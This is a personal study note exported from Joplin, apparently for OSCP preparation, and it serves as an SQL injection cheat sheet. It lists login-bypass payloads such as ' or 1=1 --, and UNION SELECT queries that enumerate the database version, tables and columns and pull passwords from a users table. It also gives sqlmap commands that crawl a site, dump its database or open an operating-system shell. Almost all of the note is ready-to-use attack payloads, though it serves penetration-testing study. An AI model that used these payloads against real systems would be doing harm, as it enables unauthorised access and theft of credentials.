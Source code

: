 SQL Injection

# Testing for Bypasses:

https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html

https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

admin'-- -

tom' or 1=1;#

tom' or '1'='1

# Basic Tests

## Check for the SQL Version

'UNION SELECT @@version,2--;

## Check for the DBs available

\# Change the value '1' to view the different names

'UNION SELECT DB_NAME(1),2--;

## Verify the number of Columns

\# Keep adjusting the number till we obtain a value that the webpage doesn't fail

'UNION SELECT 1--; # Fails

'UNION SELECT 1,2--; # We got output with 2 columns

## Check the table names

'UNION SELECT TABLE\_NAME,2 FROM information\_schema.TABLES--;

## Extract the Column data of a particular Database of Interest

'UNION SELECT name,NULL FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')--;

## Extract Information from 'Users' Table

'UNION SELECT id,NULL FROM users--; # Obtain id numbers

'UNION SELECT id,NULL FROM users--; # Obtain Name

'UNION SELECT pass,NULL FROM users--; # Obtain password

# SQLMAP - Not allowed in OSCP

## sqlmap crawl

sqlmap -u http://172.21.0.0 --crawl=1

## sqlmap dump database

sqlmap -u http://172.21.0.0 --dbms=mysql --dump

## sqlmap shell

sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell

# SQLI

Testing for a row:

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8

id: 576469a387224b88b3c2ffcd806a2cdf
parent_id: 17338627f6dc4ef4856d44508b33e0b1
created_time: 2019-11-27T02:41:46.688Z
updated_time: 2022-05-17T07:18:31.702Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1597752366033
user_created_time: 2019-11-27T02:41:46.688Z
user_updated_time: 2022-05-17T07:18:31.702Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1